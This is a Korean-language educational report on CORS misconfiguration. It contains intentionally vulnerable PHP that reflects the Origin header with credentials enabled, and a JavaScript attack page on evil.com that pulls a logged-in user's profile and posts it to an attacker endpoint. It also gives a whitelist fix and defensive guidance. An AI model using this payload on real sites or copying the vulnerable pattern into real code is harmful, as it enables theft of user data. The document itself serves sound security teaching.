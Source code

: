 # CORS Misconfiguration (CORS 설정 오류) 분석 보고서

## 1. CORS 란?

**교차 출처 공격에 문을 열어주다**

- **CORS란?** Cross-Origin Resource Sharing의 약자로, 웹 브라우저가 한 도메인(Origin)에서 다른 도메인의 리소스에 접근할 수 있도록 허용하는 보안 메커니즘입니다. 기본적으로 브라우저는 동일 출처 정책(Same-Origin Policy, SOP)에 따라 다른 도메인으로의 요청을 차단합니다. CORS는 이 SOP를 안전하게 완화하는 방법입니다.
- **원리:** 브라우저가 교차 출처 요청을 보낼 때 `Origin` 헤더를 포함합니다. 서버는 `Access-Control-Allow-Origin` 등의 CORS 관련 헤더를 응답에 포함하여, 해당 `Origin`으로부터의 요청을 허용할지 브라우저에게 알려줍니다.
- **영향:** 잘못 설정된 CORS 정책은 브라우저의 보안 메커니즘을 우회하여, 악의적인 웹사이트가 사용자의 브라우저를 통해 취약한 애플리케이션에 무단으로 요청을 보내고 민감한 데이터를 탈취하거나 조작하는 것을 허용할 수 있습니다.

---

## 2. 취약한 코드 분석 (예시)

**문제의 핵심: Origin 헤더를 검증 없이 그대로 반사**

```php
// 취약한 CORS 설정
// 이 코드는 요청의 Origin 헤더를 검증 없이 그대로 Access-Control-Allow-Origin에 반영합니다.
$origin = $_SERVER['HTTP_ORIGIN'] ?? '';
if (!empty($origin)) {
    header("Access-Control-Allow-Origin: " . $origin);
    header("Access-Control-Allow-Credentials: true"); // 자격 증명(쿠키 등) 허용
}
```

**핵심 문제점:** `Access-Control-Allow-Origin` 헤더에 요청의 `Origin` 값을 그대로 반사하는 것은 매우 위험합니다. 이는 공격자가 자신의 악성 도메인을 `Origin`으로 설정하여 요청을 보내면, 서버가 이를 허용하게 만들기 때문입니다.

---

## 3. 공격 시나리오: 민감 데이터 탈취

**공격 목표:** 취약한 API로부터 사용자의 민감한 프로필 데이터 탈취하기

**공격자가 만든 악성 웹사이트 (`evil.com`):**

```html
<script>
fetch('https://vulnerable-api.com/user/profile', {
    method: 'GET',
    credentials: 'include' // 이 옵션으로 사용자의 쿠키가 요청에 포함됩니다.
})
.then(response => response.json())
.then(data => {
    // 탈취한 데이터를 공격자의 서버로 전송
    fetch('https://evil.com/steal_data', {
        method: 'POST',
        body: JSON.stringify(data)
    });
})
.catch(error => console.error('에러:', error));
</script>
```

**공격 과정:**
1.  사용자는 `vulnerable-api.com`에 로그인되어 있는 상태입니다.
2.  사용자가 `evil.com` 웹사이트를 방문합니다.
3.  `evil.com`의 JavaScript 코드가 `vulnerable-api.com/user/profile`로 `fetch` 요청을 보냅니다. 이때 `credentials: 'include'` 옵션으로 사용자의 세션 쿠키가 자동으로 요청에 포함됩니다.
4.  `vulnerable-api.com`은 `Origin: evil.com` 헤더를 받고, 이를 `Access-Control-Allow-Origin: evil.com`으로 반사하여 응답합니다. 또한 `Access-Control-Allow-Credentials: true`도 설정되어 있습니다.
5.  브라우저는 이 응답을 보고 `evil.com`이 `vulnerable-api.com`의 리소스에 접근하는 것을 허용합니다.
6.  `evil.com`은 사용자의 프로필 데이터를 성공적으로 받아와, 이를 공격자의 서버로 전송하여 데이터를 탈취합니다.

---

## 4. 해결책: 엄격한 화이트리스트 기반 설정

**가장 안전한 방법: 신뢰할 수 있는 특정 Origin만 명시적으로 허용하기**

```php
// 허용할 Origin 목록을 엄격하게 정의합니다.
$allowed_origins = [
    'https://your-frontend-app.com',
    'https://your-mobile-app.com'
];

// 요청의 Origin 헤더를 가져옵니다.
$origin = $_SERVER['HTTP_ORIGIN'] ?? '';

// 요청 Origin이 허용된 목록에 있는지 확인합니다.
if (in_array($origin, $allowed_origins)) {
    // 신뢰할 수 있는 Origin인 경우에만 CORS 헤더를 설정합니다.
    header("Access-Control-Allow-Origin: " . $origin);
    header("Access-Control-Allow-Credentials: true"); // 자격 증명 허용
    header("Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS"); // 허용할 HTTP 메소드
    header("Access-Control-Allow-Headers: Content-Type, Authorization"); // 허용할 헤더
} else {
    // 신뢰할 수 없는 Origin인 경우 CORS 헤더를 설정하지 않습니다.
    // 브라우저의 동일 출처 정책(SOP)에 의해 요청이 차단됩니다.
}
```

**작동 원리:** 이 방식은 오직 명시적으로 허용된 도메인에서 온 요청만 리소스에 접근할 수 있도록 합니다. 다른 모든 교차 출처 요청은 브라우저의 Same-Origin Policy에 의해 자동으로 차단됩니다.

---

## 5. CORS 설정 오류 방어 전략

1.  **엄격한 Origin 화이트리스트 사용 (필수):** `Access-Control-Allow-Origin` 헤더에는 신뢰할 수 있는 특정 도메인만 명시적으로 허용합니다. 동적으로 `Origin` 헤더를 반사하는 것은 피해야 합니다.
2.  **와일드카드(`*`)와 자격 증명(`credentials: true`) 동시 사용 금지:** `Access-Control-Allow-Origin: *`와 `Access-Control-Allow-Credentials: true`를 함께 사용하는 것은 매우 위험한 설정입니다.
3.  **Null Origin 요청 거부:** `Origin: null` 헤더를 가진 요청은 특별한 이유가 없다면 명시적으로 거부합니다.
4.  **Origin 헤더 검증 강화:** 정규식 등을 사용하여 `Origin` 헤더를 검증할 경우, 공격자가 제어하는 서브도메인이나 유사 도메인이 허용되지 않도록 정규식을 견고하게 작성합니다.
5.  **허용할 HTTP 메소드 및 헤더 제한:** `Access-Control-Allow-Methods` 및 `Access-Control-Allow-Headers`를 사용하여 필요한 최소한의 메소드와 헤더만 허용합니다.
